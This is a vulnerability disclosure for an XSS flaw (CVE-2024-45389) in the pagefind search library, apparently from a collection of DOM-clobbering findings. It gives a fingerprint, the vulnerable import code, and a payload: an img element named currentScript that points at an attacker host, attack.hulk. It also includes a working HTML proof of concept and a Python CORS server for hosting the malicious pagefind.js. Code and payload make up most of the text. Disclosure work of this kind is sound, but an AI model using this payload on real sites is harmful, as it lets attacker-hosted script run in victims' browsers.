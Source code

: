 ## pagefind

### Meta

+ Library: pagefind
+ Stars: 3.3K
+ Version: v1.1.0
+ Fingerprint: `typeof PagefindUI !== 'undefined'`
+ Payload: ```<img name="currentScript" src="blob:https://attack.hulk/ui.js"></img>```
+ Impact: XSS
+ CVE: [CVE-2024-45389](https://nvd.nist.gov/vuln/detail/CVE-2024-45389)
+ Status: Accepted
+ Foundby: TheHulk

### Library

https://github.com/cloudcannon/pagefind

### Vulnerable Code Snippet

```javascript
en = new URL(document.currentScript.src).pathname.match(/^(.*\/)(?:pagefind-)?ui.js.*$/)[1]
```

```javascript
g = await import(`${r}pagefind.js`)
```

## PoC

```html
<!--Library-->
<link href="pagefind/pagefind-ui.css" rel="stylesheet">
<script src="pagefind/pagefind-ui.js"></script>
<div id="search"></div>
<script>
    window.addEventListener('DOMContentLoaded', (event) => {
        new PagefindUI({ element: "#search", showSubResults: true });
        const inputElement = document.querySelector('.pagefind-ui__search-input.svelte-e9gkc3');
        if (inputElement) {
            inputElement.value = 'Your text here';
            inputElement.dispatchEvent(new Event('input'));
        }
    });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="blob:http://localhost:9999/ui.js">
<!--Payload-->
```

run pagefind to create index. create `pagefind.js`, needs to be hosted with Access-Control-Allow-Origin set. 

```python
#!/usr/bin/env python
from http import server

class MyHTTPRequestHandler(server.SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header("Access-Control-Allow-Origin", "*")
        server.SimpleHTTPRequestHandler.end_headers(self)


if __name__ == '__main__':
    server.test(HandlerClass=MyHTTPRequestHandler)
```
